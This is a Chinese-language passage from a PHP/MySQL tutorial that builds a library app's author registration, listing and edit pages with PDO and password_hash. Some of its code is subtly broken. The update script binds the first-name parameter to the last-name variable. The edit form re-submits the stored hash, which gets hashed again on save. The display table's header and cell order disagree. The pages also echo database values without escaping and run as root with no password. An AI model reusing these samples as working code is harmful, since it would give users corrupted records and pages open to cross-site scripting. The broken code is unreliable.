在 "library" 项目目录中，创建一个名为 "index.php" 的新文件。在此文件中，我们插入以下代码来测试与 "library" 数据库的连接。

```php
<?php
// Database connection information
$host = 'localhost'; $dbname = 'library'; $username = 'root'; $password = "";

try {
// Create an instance of the PDO class to establish the connection
$connection = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);

// Set PDO to generate exceptions on errors
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

echo "Database connection successfully established";
} catch (PDOException $e) {
// Connection error handling
echo "Connection error: " . $e->getMessage();
}
?>
```

在此示例中：

变量 $host、$dbname、$username 和 $password 包含连接到 MySQL 数据库所需的信息。

由于 "library" 应用程序是在本地开发的，$host 的值为 "localhost"，$username 的值为 "root"。$dbname 变量表示数据库名称，在此示例中为 "library"。$password 变量为空，因为未为 "library" 数据库定义密码。

然后我们使用 "new" 关键字实例化一个 PDO 对象，该关键字将在关于 PHP 面向对象编程的章节中更详细地介绍。

我们使用语法 mysql:host=$host;dbname=$dbname 来指定数据库类型 (MySQL)、主机 (服务器) 和数据库名称。

方法 setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION) 用于设置 PDO 的错误处理模式。以下是该语句各部分的含义：

PDO::ATTR_ERRMODE 是一个常量，用于指示我们正在配置的属性类型。在此示例中，我们正在配置错误处理模式。

PDO::ERRMODE_EXCEPTION 是一个常量，它将错误处理模式定义为基于异常。这意味着如果在执行 SQL 查询期间发生错误，PDO 会自动抛出一个 PDOException。

通过使用这种错误处理模式，与 SQL 查询执行相关的错误会自动转换为 PDOException 异常，从而可以使用 try-catch 块在代码中更轻松地处理它们。

这使得错误处理更加明确和高效。

最后，我们显示一条消息，指示数据库连接已成功建立，或在连接出现问题时显示一条错误消息。

如果您通过执行 index.php 脚本来测试此代码，并且连接成功，您将获得以下结果：


但是，如果数据库连接信息中发生错误，您将收到类似于以下结果的消息：


## 结论

本章使我们详细了解了使用 PHP 连接到 MySQL 数据库的过程。我们详细探讨了 PDO 对象方法。我们学习了如何有效地配置和处理连接错误。我们还探讨了数据库设计中主键和外键的概念，以及在 phpMyAdmin 中创建数据库和表的实际步骤。最后，我们查看了数据库连接和错误处理的一个具体示例。本章是理解在 PHP Web 开发环境中管理 MySQL 数据库的第一步。在后续章节中，我们将探讨用于数据库管理的 SQL 查询。

### 第 11 章

### 从数据库插入、检索和显示数据

在本章中，我们将介绍使用 PHP 和 PDO 扩展从 MySQL 数据库插入、检索和显示数据所涉及的各个步骤。我们将探讨用于插入新数据的 SQL 查询，以及用于执行这些查询并在 Web 应用程序中高效显示结果的 PDO 方法。

我们将探讨用于执行 SQL 插入查询并将新数据插入数据库的 PDO 方法。这将包括使用带参数的预处理 SQL 查询，并使用 execute() 执行查询。

我们将讨论各种检索数据库中插入的数据并在 Web 应用程序中显示它的技术。这还将包括使用循环浏览结果记录并在 HTML 表中显示数据，以及其他展示格式。

本章将通过开发一个小型图书馆项目来讲解，为您提供在 PHP Web 应用程序中使用 PDO 扩展从 MySQL 数据库插入、检索和显示数据的实用且深入的理解，同时关注安全性和良好的开发实践。

### 使用 SQL 插入数据

为了说明将数据插入 MySQL 数据库的过程，我们将为 "library" 数据库中的 "authors" 表创建一个吸引人的插入表单。第一步是在 index.php 文件中创建插入表单，我们将使用 CSS 代码来设置表单样式。假设您了解 CSS 基础知识，但如果不了解，我建议您查阅我的书籍 "HTML & CSS: from Beginner to Expert"。

### 插入表单 (index.php):

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Author Registration</title>
<link rel="stylesheet" href="style.css">
</head>
<body>
<form action="author_registration.php" method="POST">
<h2>Author registration</h2>
<input type="text" name="lastname" placeholder="Last Name"><br>
<input type="text" name="firstname" placeholder="First Name"><br>
<input type="email" name="email" placeholder="Email"><br>
<input type="password" name="password" placeholder="Password"><br>


```
<textarea name="biography" placeholder="biography"></textarea><br>
<input type="submit" value="Save">
</form>
</body>
</html>
```

这段 HTML 代码创建了一个作者注册表单，包含姓、名、电子邮件和密码字段。提交表单时，数据将通过 POST 方法发送到文件 "author_registration.php"。表单使用外部样式表 "style.css" 进行样式设置，代码行如下：

```
<link rel="stylesheet" href="style.css">
```

## CSS 样式表

接下来，我们在 style.css 文件中放入以下代码来设置表单样式：

```
body {
font-family: Arial, sans-serif;
background-color: #f4f4f4;
margin: 0;
padding: 0;
display: flex;
justify-content: center;
align-items: center;
height: 100vh;
}

form {
background-color: #fff;
padding: 20px;
border-radius: 8px;
box-shadow: 0px 2px 5px rgba(0, 0, 0, 0.1);
width: 400px;
margin: auto; /* Ajout de cette ligne */
}

input {
width: calc(100% - 20px);
padding: 10px;
border: 1px solid #ccc;
border-radius: 4px;
margin-bottom: 15px;
}

textarea {
width: calc(100% - 20px);
padding: 10px;
border: 1px solid #ccc;
border-radius: 4px;
margin-bottom: 15px;
}
input[type="submit"] {
background-color: #007bff;
color: #fff;
border: none;
padding: 10px 20px;
cursor: pointer;
border-radius: 4px;
display: block;
margin: 0 auto;
}
input[type="submit"]:hover {
background-color: #0056b3;
}
```

表单的 "action" 属性指向名为 "author_registration.php" 的文件路径，该文件负责检索表单提交的数据，并将其插入到 "library" 数据库的 "authors" 表中。

让我们在 "library" 项目的根目录下创建此文件。

运行 index.php 将显示以下表单：

### 作者注册

姓
名
电子邮件
密码
个人简介
保存

## 数据处理与插入

### author_registration.php

```php
<?php
// Retrieve form data
$lastname = $_POST['lastname'];
$firstname = $_POST['firstname'];
$email = $_POST['email'];
$password = $_POST['password'];
$biography = $_POST['biography'];

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare insertion request
$request = $connection->prepare("INSERT INTO authors (last_name, first_name, email, password, biography) VALUES
(:lastname, :firstname, :email, :password, :biography)");

// Bind values to query parameters
$request->bindParam(':lastname', $lastname);
$request->bindParam(':firstname', $firstname);
$request->bindParam(':email', $email);
$request->bindParam(':password', $password);
$request->bindParam(':biography', $biography);

// Execute query
$result = $request->execute();

// Verify successful insertion
if ($result) {
    echo "Author is registered successfully!";
} else {
    echo "Error registered author.";
}

?>
```

这段 PHP 代码首先通过 POST 方法检索之前 HTML 表单传输的数据。接着，使用提供的凭据（主机名、数据库名、用户名和密码）通过 PDO 对象建立与 MySQL 数据库的连接。

随后，使用 **INSERT INTO** 语句准备一条插入 SQL 查询，以向 "authors" 表添加新行。"lastname"、"firstname"、"email" 和 "password" 字段的值通过 bindParam 方法绑定到查询参数。

将值绑定到参数后，使用 execute() 方法执行查询，并将执行结果存储在 $result 变量中。

最后，代码通过验证 $result 的值来检查插入是否成功。如果为 true，则显示一条消息，指示作者已成功注册。否则，将显示一条错误消息，指示注册作者时出现问题。

### 详细解释：

```php
$query = $connection->prepare("INSERT INTO authors (last_name, first_name, email, password, biography) VALUES (:lastname, :firstname, :email, :password, :biography)");
```

这行代码准备了一条插入 SQL 查询，以便稍后在数据库中执行。详细解释如下：

**$connection->prepare()** ：这是 PDO 对象的一个方法，用于准备要执行的 SQL 查询。它返回一个表示已准备查询的 PDOStatement 对象。

"INSERT INTO authors (last_name, first_name, email, password, biography) VALUES (:lastname, :firstname, :email, :password, :biography)" ：这是已准备的插入 SQL 查询。它告诉数据库使用为 "last_name"、"first_name"、"email"、"password" 和 "biography" 列提供的值，向 "authors" 表插入一行新数据。列值由命名参数标签（":lastname"、":firstname"、":email"、":password"、":biography"）表示，这些标签将在运行查询时关联到提供的值。

查询结构如下：

- INSERT INTO authors：表示在 "authors" 表中执行插入请求。
- (last_name, first_name, email, password, biography)：指定要添加值的列名。
- VALUES (:lastname, :firstname, :email, :password, :biography)：指示要插入到相应列中的值。参数标记名为 ":lastname"、":firstname"、":email"、":password" 和 ":biography"。":password" 和 ":biography" 用于表示这些值。

通过使用命名参数标记，已准备的查询能够防止 SQL 注入攻击，并允许将 SQL 逻辑与要插入的数据值逻辑分离。

简而言之，这行代码在 "authors" 表中准备一条带有命名参数的插入查询，用于向指定列插入值。

- 带有 bindParam() 方法的五行代码将已准备查询中命名的参数标记的值绑定到指定的 PHP 变量。详细解释如下：

$request->bindParam(':lastname', $lastname); ：此行将 PHP 变量 $lastname 的值绑定到已准备查询中名为 ":lastname" 的参数标记。这意味着在执行查询时，变量 $lastname 的值将用于替换名为 ":lastname" 的参数标记。

$request->bindParam(':firstname', $firstname)；同样，此行将 PHP 变量 $firstname 的值绑定到已准备查询中名为 ":firstname" 的参数标记。

$request->bindParam(':email', $email)；此行将 PHP 变量 $email 的值绑定到已准备查询中名为 ":email" 的参数标记。

$request->bindParam(':password', $password)；同样，此行将 PHP 变量 $password 的值绑定到已准备查询中名为 ":password" 的参数标记。

$request->bindParam(':biography', $biography)；同样，此行将 PHP 变量 $biography 的值绑定到已准备查询中名为 ":biography" 的参数标记。

通过将 PHP 变量值关联到命名参数标记，这些行准备了带有指定值的查询，以便执行并向 "authors" 表的每个列插入值。这允许以安全可控的方式将用户提供的数据插入数据库。

代码行：$result = $request->execute(); 执行之前使用 PDO 对象的 prepare() 方法准备的查询。详细解释如下：

$result = $request->execute(); ：该指令在表示已准备查询的 PDOStatement 对象 $request 上调用 execute() 方法。该方法使用绑定到参数标记的值（之前通过 bindParam() 定义）执行已准备的 SQL 查询。如果查询执行成功，则返回 true；否则返回 false。返回值被赋给 $result 变量。随后可以使用该变量检查查询是否成功或失败。

此时，在 index.php 页面上提交并验证表单且未生成任何错误后，您将收到一条消息，显示 "Author is registered successfully!"。如果随后访问 URL http://localhost/phpmyadmin/ 并查询 "library" 数据库中的 "authors" 表，您应该看到一


记录作者 "Dupont Alice"，其标识符等于 1。

| author_id | last_name | first_name | email | password | biography |
|---|---|---|---|---|---|
| 1 | Dupont | Alice | dupont-alice@gmail.com | azerty | queuou paieopie pio piolo epiopie ioapie opicpieopi... |

然而，需要注意的是，密码以未加密的形式存储在数据库中，这代表潜在的安全风险。如果恶意人员获得对数据库的访问权限，他们将能够访问这些敏感信息。这可能会危及您应用程序用户的安全，因为密码应始终安全存储，例如使用哈希技术，即使在未经授权访问数据库的情况下也使其不可读。要解决这个问题，最常见的解决方案之一是在将密码插入数据库之前对其进行哈希处理。

让我们修改文件 author_registration.php，在数据库连接代码之前添加以下代码行：

```
// Password hash
$password_hash = password_hash($password, PASSWORD_DEFAULT);
```

这行代码是一条指令，使用 **password_hash()** 函数对从表单中检索的密码进行哈希处理。该函数接受两个参数：要哈希的密码和要使用的哈希算法。

$password: 这是包含从表单中检索的原始密码的变量。

$password_hash: 这是将包含密码哈希结果的变量。该结果是由哈希算法生成的安全且唯一的字符串。

PASSWORD_DEFAULT: 这是 PHP 提供的一个常量，表示 password_hash() 函数推荐的默认哈希算法。该常可根据 PHP 版本进行更新，以使用可用的最安全哈希算法。

接下来，我们将行：$request->bindParam(':password', $password); 替换为以下代码

```
// Use hashed password
$request->bindParam(':password', $password_hash);
```

如果您在 index.php 页面上填写表单以注册新作者，并且一切顺利，您将看到消息 "Author added successfully!"。在检查数据库中的 authors 表后，您应观察到如下示例所示的注册数据：

| author_id | last_name | first_name | email | password | biography |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | Dupont | Alice | dupont-alice@gmail.com | azerty | quaeou paieopie pio pio elope loapie olapiepl... |
| 2 | Lambert | Maximilien | maximilien@gmail.com | $2y$10$uaIX80NEpRzzlMTH7Y7GuGVVZBK3ERNJD.GbUpbGsc... | Maximilien Lambert is an expert in computer techno... |

请特别注意 ID = 2 的作者的 password 列。这个值是一个长字符串，表示密码在存储到数据库之前已被哈希处理，从而增强了数据安全性。您可以继续注册其他作者。

## 选择和显示数据库数据

在本节中，我们将探讨如何使用 PHP 和 MySQL 从数据库中选择和显示数据。我们将先编写代码，选择数据库中 "authors" 表内的所有作者，然后了解如何将这些数据显示在 HTML 表中。

现在让我们在 "library" 项目目录中创建一个名为 "display_authors.php" 的新文件。以下是选择作者的代码：

```
<?php

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare author selection query
$query = $connection->prepare("SELECT * FROM authors");

// Execute query
$query->execute();

// Retrieve results as associative array
$authors = $query->fetchAll(PDO::FETCH_ASSOC);

?>
```

行：$query = $connection->prepare("SELECT * FROM authors"); 准备一条 SQL 查询，以选择 "authors" 表中的所有列（*）。

行：`$authors = $query->fetchAll(PDO::FETCH_ASSOC);` 将所有查询结果作为关联数组检索并将其存储在 `$authors` 变量中。

总之，在此第一步中，连接到数据库后，代码执行一条 SQL 查询以选择所有作者，检索结果并将其存储在关联数组 `$authors` 中。

现在我们可以继续将这些作者显示在 HTML 表中。

让我们按如下方式修改文件 `display_authors.php`：

```
<!DOCTYPE html> <html lang="en">
<head> <meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>List of Authors</title>
</head>

<body>
<h2>List of Authors</h2>
<?php
// Part 1 - select and retrieve all authors

$connection = new PDO("mysql:host=localhost;dbname=library", "root","");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$query = $connection->prepare("SELECT * FROM authors");
$query->execute();

$authors = $query->fetchAll(PDO::FETCH_ASSOC);

// Part 2 - Displaying results in an HTML table

if (count($authors) > 0) {
    echo "<table>";
    echo "<tr>
        <th>ID</th>
        <th>Last Name</th>
        <th>First Name</th>
        <th>Email</th>
        <th>Biography</th>
    </tr>";
    foreach ($authors as $author) {
        echo "<tr>";
        echo "<td>{$author['author_id']}</td>";
        echo "<td>{$author['last_name']}</td>";
        echo "<td>{$author['first_name']}</td>";
        echo "<td>{$author['email']}</td>";
        echo "<td>{$author['biography']}</td>";
        echo "</tr>";
    }
    echo "</table>";
} else {
    echo "No author found.";
}
?>
</body>
</html>
```

此代码的第 2 部分首先通过检查从 `$authors` 变量中检索的作者数量是否大于零（使用 `if (count($authors) > 0)` 条件）来确定数据库中是否存在作者。如果找到作者，代码将生成一个 HTML 表以显示每个作者的详细信息。否则，如果未找到作者，它将显示消息 "No authors found."。

在 foreach 循环中，将浏览 `$authors` 数组中的每个作者。对于每个作者，代码将生成一个新表行，其中包含作者详细信息，例如作者 ID (`$author['author_id']`)、姓氏 (`$author['last_name']`)、名 (`$author['first_name']`)、电子邮件 (`$author['email']`) 和简介 (`$author['biography']`)。这些详细信息将显示在表单元格（`<td>`）中，每个作者将显示在新表行（`<tr>`）中。

运行 `display_authors.php` 将产生类似以下的结果：

## 作者列表

| ID | 姓 | 名 | 电子邮件 | 简介 |
|---|---|---|---|---|
| 1 | Dupont | Alice | dupont-alice@gmail.com | quecou paiecopie pio pioio eiope ioapie opioiiepie ziepoi eipei pei |
| 2 | Lambert | Maximilien | maximilien@gmail.com | Maximilien Lambert 是计算机技术专家 |

为增强此表格的外观，请考虑应用 CSS 样式。首先，创建一个 style_tab.css 文件，遵循上一章中采用的步骤。接下来，通过添加以下代码行，在 display_authors.php 文件的头部（head）中引用此文件。

```
<head> <meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>List of Authors</title>
<link rel="stylesheet" href="style_tab.css">
</head>
```

接下来，您可以添加以下 CSS 样式以自定义表格的外观。

```
table {
    width: 100%;
    border-collapse: collapse;
}

th, td {
    border: 1px solid #ddd;
    padding: 8px;
    text-align: left;
}

th {
    background-color: #f2f2f2;
}
```

在此代码中，我们有：

- **表格**: 此规则定义文档中所有表格的基本样式。
  - width: 100%; 表示表格的宽度应适应其容器的宽度。
  - border-collapse: collapse; 指定表格单元格的边框应折叠形成单个边框。

- **th, td**: 此规则定义表格中标题单元格（th）和数据单元格（td）的样式。
  - border: 1px solid #ddd; 在每个单元格周围创建 1 像素的浅灰色实线边框。
  - padding: 8px; 为每个单元格添加 8 像素的内边距，以提高可读性。


- text-align: left; 将每个单元格中的文本内容左对齐。
- th：此规则为表格中的标题单元格（th）定义特定样式。
- background-color: #f2f2f2; 为标题单元格设置浅灰色背景色，以便从数据单元格中直观地区分。

现在，如果你运行文件 display_authors.php，将得到类似以下结果：


## 结论

在本章中，我们探讨了使用 PHP 和 MySQL 从数据库中插入、检索和显示数据的过程。我们学习了如何建立到数据库的安全连接、将数据插入表中、使用 SQL 查询检索这些数据，最后以结构化的方式在 Web 应用程序中显示这些数据。

通过使用 PDO 的功能，我们能够安全高效地管理操作，防止 SQL 注入等潜在攻击。此外，我们还探讨了在将密码存储到数据库之前对其进行哈希处理以提高安全性的技术。

最后，通过应用 CSS 样式，我们能够将检索到的数据以格式良好的表格呈现，提供最佳用户体验。

本章为理解 Web 应用程序中数据操作的基础知识提供了坚实基础，为下一章中将介绍的数据更新和删除等更高级功能铺平了道路。

## 更新和删除数据库中的数据

更新和删除数据库中的数据是维护存储信息的完整性和相关性的关键操作。在本章中，我们将详细探讨如何使用 PHP 和 MySQL 执行这些操作。

我们将介绍更新表中现有记录的技术，以及安全删除数据的方法。我们还将探讨在这些关键操作中避免错误和保护敏感数据的良好安全实践。

通过将本章获得的知识与前几章中关于数据插入、检索和显示的知识相结合，你将能够创建强大且功能完善的应用程序，充分发挥关系型数据库的潜力。

### 更新数据库中的数据

在本节中，我们将探讨更新数据库中的数据。更新是修改表中现有值的过程。无论是为了纠正错误、更新信息还是监控数据演变，执行更新的能力在 Web 应用程序开发中都是必不可少的。

我们将探讨使用 PHP 在 MySQL 数据库中更新数据所涉及的各个步骤。这包括准备更新请求、执行这些请求以及检查操作是否成功。

为了说明更新操作，我们将继续开发我们的“库”小型项目。我们将为你提供关于如何安全高效地更新自己的项目的详细说明。

### 更新流程

通常，要更新表中的数据，需要遵循以下步骤：

- 识别要更新的记录：你必须首先识别要更新的表记录。可以通过检索该记录的标识符（例如我们示例中的作者 ID）来完成。
- 检索新数据：获取要为该记录更新的新数据。
- 数据库连接：使用 PDO 建立数据库连接以运行 SQL 查询。
- 准备和执行更新请求：使用 PDO 的 prepare() 方法准备更新 SQL 查询。使用 execute() 方法执行请求。
- 绑定值：使用 bindParam() 方法将替换值链接到查询参数。
- 检查更新是否成功：检查查询执行的结果以确认更新成功。
- 显示确认消息：显示适当的消息以告知用户更新操作的结果。

以下是一段 PHP 代码示例，你可以将其放入名为 "edit_author.php" 的新文件中。

```php
<?php
$author_id = 1; // Example of author ID to be updated

// New author information
$new_lastname = "New Last Name";
$new_firstname = "New First Name";
$new_email = "newaddress@example.com";
$new_password = "new_password";
$new_biography = "New biography";
```

```php
// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
```

```php
// Update request
$request = $connection->prepare("UPDATE authors SET
    last_name = :new_lastname,
    first_name = :new_firstname,
    email = :new_email,
    password = :new_password,
    biography = :new_biography
WHERE author_id = :author_id");
```

```php
// Bind parameters
$request->bindParam(':new_lastname', $new_lastname);
$request->bindParam(':new_firstname', $new_firstname);
$request->bindParam(':new_email', $new_email);
$request->bindParam(':new_password', $new_password);
$request->bindParam(':new_biography', $new_biography);
$request->bindParam(':author_id', $author_id);
```

```php
// Execute query
$result = $request->execute();
```

```php
// Verify successful update
if ($result) {
    echo "Information updated successfully";
} else {
    echo "An error occurred during the update";
}
?>
```

这段 PHP 代码演示了在 "authors" 表中更新 author_id = 1 的单个作者信息的过程。在此操作中，作者姓氏、名字、电子邮件、密码和传记的新值是预先定义的。然后使用 PDO 建立数据库连接。使用 PDO 对象的 prepare() 方法准备更新 SQL 查询，其中使用 UPDATE ... SET 语句指定要更新的列和新值。然后使用 bindParam() 方法将新作者信息的值和要更新的作者 ID 绑定到查询参数。最后，使用 PDO 对象的 execute() 方法执行更新请求。如果你执行此代码，通常应该得到以下消息：


当你查询 "authors" 表中的数据时，你会看到 ID 为 1 的作者信息已被修改：


你可能注意到在前面的代码中，作者 ID 和新数据是静态定义的。然而，在实践中，动态检索它们至关重要。

可以通过多种方式实现这一点：例如，设置一个表单，让用户输入相关作者的标识符，然后检索它。另一种选择是在显示所有作者的表格每行前添加一个链接，以传输相应的作者 ID。我们将在后面开发后者的方法。

可以通过表单管理新数据。这将首先显示要更新的旧数据，然后允许用户输入新信息。

### 更新所有作者列表

在上一章中，我们开发了在表格中显示所有作者数据的流程。在本节中，我们将通过在表格的每一行添加一个链接来增强此流程。此链接将把作者的标识符传递给名为 "form_edit_author.php" 的脚本，该脚本将检索与该标识符对应的作者数据，并在表单中显示这些数据，以允许输入新信息。

在文件 display_authors.php 中，我们做了两个主要更改：

- 我们向显示表格添加一个标题为 "编辑" 的列：<th>编辑</th>。
- 然后我们在每个表格单元格中添加 "编辑" 链接：

```php
echo "<td><a href='form_edit_author.php?id={$author['author_id']}'>
Edit</a></td>";
```

以下是 "display_authors.php" 文件的修改版本：

```html
<!DOCTYPE html> <html lang="en">

<head> <meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>List of Authors</title>

<link rel="stylesheet" href="style_tab.css">
```


</head>

<body>
<h2>List of Authors</h2>
<?php

// Part1 - select and retrieve all authors

$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


$query = $connection->prepare("SELECT * FROM authors");
$query->execute();
$authors = $query->fetchAll(PDO::FETCH_ASSOC);


// Part 2 - Displaying results in an HTML table

if (count($authors) > 0) {
    echo "<table>";
    echo "<tr>
        <th>Edit</th>
        <th>ID</th>
        <th>Last Name</th>
        <th>First Name</th>
        <th>Email</th>
        <th>Biography</th>
</tr>";
foreach ($authors as $author) {
 echo "<tr>";
 echo "<td>{$author['author_id']}</td>";
 echo "<td>{$author['last_name']}</td>";
 echo "<td>{$author['first_name']}</td>";
 echo "<td>{$author['email']}</td>";
 echo "<td>{$author['biography']}</td>";
 echo "<td><a href='form_edit_author.php?author_id={$author['author_id']}'>
Edit</a></td>";
 echo "</tr>";
}
echo "</table>";
} else {
 echo "No author found.";
}
?>
</body>
</html>

这些修改在作者显示表中添加了一个“编辑”列，每一行都包含一个指向名为“form_edit_author.php”的脚本的“编辑”链接，并将相应的作者 ID 作为参数传递。执行此代码将产生类似于以下的结果：


然后创建一个名为 form_edit_author.php 的新空脚本。当您单击“编辑”链接时，将被重定向到该文件“form_edit_author.php”，相应的作者 ID 将通过 URL 传输。


## 在表单中检索和显示数据

在我们之前创建的“form_edit_author.php”文件中，我们使用 $_GET 超全局变量从 URL 中检索要更新的作者 ID。然后，我们查询数据库以将相关作者的所有数据检索到关联数组中。

- 从数据库检索数据

```php
<?php

// Retrieve the author ID to be updated
$author_id = $_GET['author_id'];

// Connect to database
$connection = new PDO("mysql:host=localhost;dbname=library", "root","");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare selection query
$query = $connection->prepare("SELECT * FROM authors WHERE author_id =:author_id");

$query->bindParam(':author_id', $author_id);

// Execute request
$query->execute();

// Retrieve results
$author = $query->fetch(PDO::FETCH_ASSOC);
```

此 PHP 代码用于从数据库中检索特定作者的信息，并在修改表单中显示。以下是代码的详细解释：

$_GET['author_id']：此行检索通过 URL 传输的作者标识符，可通过 $_GET 超全局变量访问。

fetch(PDO::FETCH_ASSOC) 方法用以将查询结果的第一行以关联数组的形式检索出来。该数组包含从数据库中检索到的作者数据。

- 将检索到的数据保存在变量中

然后，如果 URL 中传递的标识符存在对应作者，则将存储在关联数组 $author 中的数据保存到变量中，以方便使用。

```
// Check if author exists
if($author) {
// Retrieve author information
$lastname = $author['last_name'];
$firstname = $author['first_name'];
$email = $author['email'];
$password = $author['password'];
$biography = $author['biography'];
}
```

此代码段用于从数据库中提取作者信息，并将其存储在单独的变量中，以便在修改表单中稍后使用。例如：行 $lastname= $author['lastname']; 从关联数组 $author 中提取作者“last_name”列的值，并将其存储在变量 $lastname 中。这意味着变量 $lastname 现在包含从数据库中检索到的作者姓氏。

- 在表单中显示数据

完成此操作后，我们将在类似于上一章中用于注册新作者的表单中显示这些数据。

```html
<form action="modify_author.php" method="POST">
<h2>Edit an Author</h2>
<label>Last Name:</label>
<input type="text" name="lastname" value="<?= $lastname ?>"><br>
<label>Firstname:</label>
<input type="text" name="firstname" value="<?= $firstname ?>"><br>
<label>Email:</label>
<input type="email" name="email" value="<?= $email ?>"><br>
<label>Password:</label>
<input type="password" name="password" value="<?= $password ?>"><br>
<label>Biography:</label>
<textarea name="biography"><?= $biography ?></textarea><br>
<input type="hidden" name="author_id" value="<?= $author_id ?>">
<input type="submit" value="Edit">
</form>
```

此 HTML 代码表示用于修改数据库中作者信息的表单。以下是详细说明：

<form> 标签的 action 属性指定了提交表单数据后将处理该数据的 PHP 脚本的 URL。在此示例中，它是“modify_author.php”，使用的 HTTP 方法是 POST。

在 <form> 标签内，使用 <h2> 标题来指示该表单用于作者修改。

接下来，使用一系列 <input> 字段和一个 <textarea> 字段来输入作者的新信息。每个字段都有一个 name 属性，该属性对应表单提交时 $_POST 数组中的字段名。

当前字段值通过 PHP 定义，使用 <?= 标签显示包含作者当前数据的 PHP 变量。例如：value="<?= $lastname ?>" 将表单 lastname 字段中的变量 $lastname 的值设置为该变量。

密码字段使用 type="password"，出于安全考虑隐藏输入的字符。

类型为 "hidden" 的 <input> 字段用于存储作者 ID，但对用户不可见。这样可以将作者 ID 传递给处理 PHP 脚本，而无需用户输入。

最后，使用“提交”按钮提交表单并将数据发送到 PHP 脚本进行处理。

此表单允许用户修改作者信息并将其提交以在数据库中更新。

以下是脚本 form_edit_author.php 的完整代码：

```html
<!DOCTYPE html>
<html lang="fr">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Edit Author</title>
<link rel="stylesheet" href="style.css">
</head>
<body>
<?php
// Retrieve the author ID to be updated
$author_id = $_GET['author_id'];
// Connect to database
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");

$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare selection query
$query = $connection->prepare("SELECT * FROM authors WHERE author_id = :author_id");

$query->bindParam(':author_id', $author_id);

// Execute request
$query->execute();

// Retrieve results
$author = $query->fetch(PDO::FETCH_ASSOC);

// Check if author exists
if($author) {
// Retrieve author information
$lastname = $author['last_name'];
$firstname = $author['first_name'];
$email = $author['email'];
$password = $author['password'];
$biography = $author['biography'];
}
?>
```

<form action="modify_author.php" method="POST">
<h2>Edit an Author</h2>
<label>Last Name:</label>
<input type="text" name="lastname" value="<?=$lastname ?>"><br>
<label>Firstname:</label>
<input type="text" name="firstname" value="<?=$firstname ?>"><br>
<label>Email:</label>
<input type="email" name="email" value="<?= $email ?>"><br>
<label>Password:</label>
<input type="password" name="password" value="<?=$password?>"><br>
<label>Biography:</label>
<textarea name="biography"><?=$biography ?></textarea><br>
<input type="hidden" name="author_id" value="<?= $author_id ?>">
<input type="submit" value="Edit">
</form>
</body>
</html>

此时，如果在显示所有作者的表格中选择“编辑”列中的某个链接，您将被重定向到类似于以下显示的页面：


## 编辑作者

姓氏：
Lambert

名字：
Maximilien

电子邮件：
maximilien@gmail.com

密码：
******************

简介：
Maximilien Lambert 是计算机技术专家

编辑

除了展示检索到的数据，此表单还提供在提交前进行修改的可能性。当表单被验证后，它会被导向 modify_author.php 脚本，该脚本负责使用表单中输入的信息更新数据库中的数据。以下是更新后的 "modify_author.php" 脚本代码：

```php
<?php
$author_id = $_POST['author_id']; // Author ID to be updated

// New author information
$new_lastname = $_POST['lastname'];
$new_firstname = $_POST['firstname'];
$new_email = $_POST['email'];
$new_password = $_POST['password'];
$new_biography = $_POST['biography'];

// Hash password
$password_hashed = password_hash($new_password, PASSWORD_DEFAULT);

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library","root","");

// Update request
$request = $connection->prepare("UPDATE authors SET last_name = :new_lastname, first_name = :new_firstname, email = :new_email, password = :new_password, biography = :new_biography WHERE author_id = :author_id");

// Bind parameters
$request->bindParam(':author_id', $author_id);
$request->bindParam(':new_lastname', $new_lastname);
$request->bindParam(':new_firstname', $new_lastname);
$request->bindParam(':new_email', $new_email);
$request->bindParam(':new_password', $password_hashed);
$request->bindParam(':new_biography', $new_biography);

// Execute query
$result = $request->execute();

// Check update success
if ($result) {
    echo "Information updated successfully";
} else {
    echo "An error occurred during the update.";
}
?>
```

这段 PHP 代码通过 POST 方法检索作者修改表单提交的数据。使用 $_POST 超全局变量，它首先检索要更新的作者 ID，以及名、姓、电子邮件、密码和简介等新信息。

随后，出于安全考虑，密码使用 password_hash() 函数进行哈希处理。然后使用 PDO 建立数据库连接。

准备一条更新查询，以更新 "authors" 表中的作者信息。查询参数与从表单中检索的值相关联。

然后执行请求并检查结果。如果更新成功，将显示成功消息。否则，将返回错误消息。

## 从数据库中删除数据

在本节中，我们将探讨使用 PHP 和 MySQL 从数据库中删除数据的过程。删除数据是一项关键操作，需要特别小心，以避免对现有数据造成任何意外的丢失或损坏。我们将探讨删除数据库表中记录的不同方法，重点在于良好的安全性和效率实践。你将学习如何安全地构建和执行删除查询，以及如何处理过程中可能出现的任何错误。

我们将首先探讨最简单的方法，即使用 SQL DELETE 查询根据某些标准删除单个记录或一组记录。我们还将讨论使用此方法时应采取的预防措施，以避免意外或未经授权地删除数据。

为了说明删除数据的过程，我们将进一步开发我们的 "library" 项目。我们将提供详细解释，说明如何在你自己的项目中安全高效地执行此操作。

在显示所有作者的 "display_authors.php" 页面中，我们将引入一个名为 "Delete" 的新列。

